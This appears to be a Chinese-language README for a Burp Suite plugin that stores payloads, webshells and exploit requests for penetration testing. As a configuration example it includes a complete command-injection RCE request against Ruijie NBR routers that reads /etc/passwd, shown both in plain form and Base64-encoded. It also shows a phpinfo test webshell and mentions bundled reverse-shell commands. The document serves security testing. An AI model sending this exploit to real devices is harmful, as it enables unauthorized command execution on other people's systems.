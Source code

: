 ## Doraemon-渗透辅助小工具

### 前言

1. 在渗透测试或挖 SRC 的时候每次都需要在笔记中复制一些 Payload 或 Webshell 内容觉得太麻烦了，所以打算 **抄一个** Burpsuite 插件，直接在 Burpsuite 点一点操作就简单多了。
2. 在复现一些Http 请求的漏洞，每次都需要在笔记复制exp或写个简单的 python 脚本觉得太麻烦了，如果在 Burpsuite 中直接修改请求包就简单多了。
3. 每次都需要到其他目录打开一些工具，直接在BurpSuite 打开其他工具进行目录扫描等操作就简单多了



### 使用

1、加载插件初始化的配置文件会放在的`/用户根目录/.config/DAM/`目录下。

2、如果当前 BurpSuite 目录存在 **DAM 目录和文件 **就会优先访问，但是**不会创建**。（[方便迁移](https://github.com/yuyan-sec/Doraemon/issues/7)）

3、**使用 vscode 来修改 exp.yaml ， payload.yaml 和 tools.yaml** （**yaml 语法**）

```
DAM:
|_exp.yaml
|_payload.yaml
|_tools.yaml
|_temp.req (单独启动的时候用来保存 request 请求)
```



#### payload.yaml

该文件是把 **Payload 插入到 数据包 中** （在文件上传的时候快速插入webshell，不用再生成或者翻文件来复制粘贴了）

```
<?php phpinfo();?>
```

需要把 payload  Base64 编码

```
PD9waHAgcGhwaW5mbygpOz8+
```

```
WebShell:
  蚁剑:
    PHP:
      PD9waHAgcGhwaW5mbygpOz8+
```

![2](./images/2.png)



#### exp.yaml

获取 host 和 Cookie **修改整个数据包**（如果 Repeater 没有 Target 就使用不了）

host 和 cookie 的位置使用占位符 `%s`  ,  如果是未授权的就不需要 cookie。

```
POST /guest_auth/guestIsUp.php HTTP/1.1 
Host: %s
Connection: close Upgrade-Insecure-Requests: 1 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36 
Cookie: %s
Content-Type: application/x-www-form-urlencoded 
Content-Length: 56 

mac=1&ip=127.0.0.1|cat /etc/passwd > test.txt
```

然后把 exp   **Base64编码**

```
UE9TVCAvZ3Vlc3RfYXV0aC9ndWVzdElzVXAucGhwIEhUVFAvMS4xIApIb3N0OiAlcwpDb25uZWN0aW9uOiBjbG9zZSBVcGdyYWRlLUluc2VjdXJlLVJlcXVlc3RzOiAxIApVc2VyLUFnZW50OiBNb3ppbGxhLzUuMCAoV2luZG93cyBOVCAxMC4wOyBXaW42NDsgeDY0KSBBcHBsZVdlYktpdC81MzcuMzYgKEtIVE1MLCBsaWtlIEdlY2tvKSBDaHJvbWUvODUuMC40MTgzLjEyMSBTYWZhcmkvNTM3LjM2IApDb29raWU6ICVzCkNvbnRlbnQtVHlwZTogYXBwbGljYXRpb24veC13d3ctZm9ybS11cmxlbmNvZGVkIApDb250ZW50LUxlbmd0aDogNTYgCgptYWM9MSZpcD0xMjcuMC4wLjF8Y2F0IC9ldGMvcGFzc3dkID4gdGVzdC50eHQ=
```

编写 exp.yaml（**yaml 语法**）

```
设备漏洞:
  锐捷漏洞:
    锐捷NBR路由器-前台RCE:
      UE9TVCAvZ3Vlc3RfYXV0aC9ndWVzdElzVXAucGhwIEhUVFAvMS4xIApIb3N0OiAlcwpDb25uZWN0aW9uOiBjbG9zZSBVcGdyYWRlLUluc2VjdXJlLVJlcXVlc3RzOiAxIApVc2VyLUFnZW50OiBNb3ppbGxhLzUuMCAoV2luZG93cyBOVCAxMC4wOyBXaW42NDsgeDY0KSBBcHBsZVdlYktpdC81MzcuMzYgKEtIVE1MLCBsaWtlIEdlY2tvKSBDaHJvbWUvODUuMC40MTgzLjEyMSBTYWZhcmkvNTM3LjM2IApDb29raWU6ICVzCkNvbnRlbnQtVHlwZTogYXBwbGljYXRpb24veC13d3ctZm9ybS11cmxlbmNvZGVkIApDb250ZW50LUxlbmd0aDogNTYgCgptYWM9MSZpcD0xMjcuMC4wLjF8Y2F0IC9ldGMvcGFzc3dkID4gdGVzdC50eHQ=
```

![1](./images/1.png)

#### tools.yaml

可以直接在GUI直接新增和删除，也可以手动添加

```
ping: ping -nc 1 {host}

ffuf: ffuf.exe -w dict.txt -u {url}/FUZZ

ffuf2: ffuf.exe -w dict.txt -request {request} -request-proto http -mode clusterbomb
```

**配置**

https://www.baidu.com/index.php

- {request} 表示使用请求包
- {url} : https://www.baidu.com/index.php
- {host} : www.baidu.com
- {domain} :  baidu.com
- {target} :  https://www.baidu.com



### 更新日志

#### 1.0.4

添加了一些反弹shell的命令

![](/images/7.png)

#### 1.0.3.1

1. 感谢 [alex123-2star](https://github.com/alex123-2star) 师傅提交的代码：优化 Mac 快捷启动 和 请求处理（{domain}  {target} ）
2. 如果当前 BurpSuite 目录存在 **DAM 目录和文件 **就会优先访问，但是**不会创建**。其次才访问 `/用户根目录/.config/DAM/` 下的文件（会创建目录和配置文件）



#### 1.0.3

1.0.3 版本所有配置都放在了`/用户根目录/.config/DAM/`，新增了一个快捷启动工具的功能，可以通过设置工具的路径和命令进行快捷启动。Linux 系统需要安装 `gnome-terminal` ，mac 没测试。

该功能主要抄的工具：

https://github.com/bit4woo/knife

https://github.com/kN6jq/gather

![3](./images/5.png)

添加保存完成之后在菜单右键可以看到工具

![3](./images/6.png)

#### 1.0.2

1.0.2 版本添加了一个 GUI 方便查看 漏洞 和 Payload

![3](./images/3.png)

也可以单独运行，其他功能还没写

![4](./images/4.png)


### 已知BUG

第三层不能同名，这样通过 JSP 获取内容就会出错，只会获取到最后一个 冰蝎3 的 JSP

```yaml
WebShell:
  哥斯拉:
    JSP:
      dGVzdA==
  冰蝎3:
    JSP:
      MTIz
```

建议修改为

```yaml
WebShell:
  哥斯拉:
    哥斯拉-JSP:
      dGVzdA==
  冰蝎3:
    冰蝎3-JSP:
      MTIz
```

这样就可以获取到相对的内容。





### 参考

本工具基于大量优秀文章和工具才得以~~编写~~ 抄写完成，非常感谢这些无私的分享者！

https://github.com/d3vilbug/HackBar

https://github.com/bit4woo/knife

https://github.com/kN6jq/gather
